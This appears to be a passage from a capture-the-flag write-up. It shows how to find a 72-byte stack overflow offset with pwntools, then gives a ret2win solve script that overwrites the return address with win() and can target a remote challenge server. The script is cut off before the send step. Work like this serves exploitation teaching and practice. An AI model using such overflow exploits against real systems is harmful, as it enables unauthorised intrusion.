 ```python
from pwn import *
context.arch = 'amd64'
p = process('./challenge')
p.recvuntil(b"Spune ceva:")
p.sendline(cyclic(300))
p.wait()
core = p.corefile
rip = core.rip
print(hex(rip), cyclic_find(rip))  # should print 72
```

Or inspect the decompiler/stack layout: `0x40` buffer + `8` saved RBP = **72**.

---

## Exploit strategy (ret2win)

Just overwrite RIP with the address of `win()`. Sometimes alignment requires a padding `ret` gadget; I’ve included one you can enable if needed.

---

## Exploit (solve script)

```python
#!/usr/bin/env python3
from pwn import *

# Context
context.binary = ELF('./challenge', checksec=False)
context.arch = 'amd64'
elf = context.binary

HOST = args.HOST or 'ctf.ac.upt.ro'
PORT = int(args.PORT or 9064)

def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    else:
        return process(elf.path)

def main():
    io = start()

    # Offsets
    offset = 0x40 + 8  # 64-byte buffer + saved RBP = 72

    # Targets / gadgets
    win = elf.symbols['win']   # e.g., 0x401196
    # Optional 'ret' gadget if alignment ever bites:
    ret = 0x4010e0             # a plain 'ret' (from _dl_relocate_static_pie stub area)

    log.info(f"win = {hex(win)}")
    log.info(f"offset = {offset}")

    # Payload: [padding][win]
    payload  = b'A' * offset
    payload += p64(win)

    # If you hit alignment issues, use:
    # payload = b'A' * offset + p64(ret) + p64(win)

    # Send
```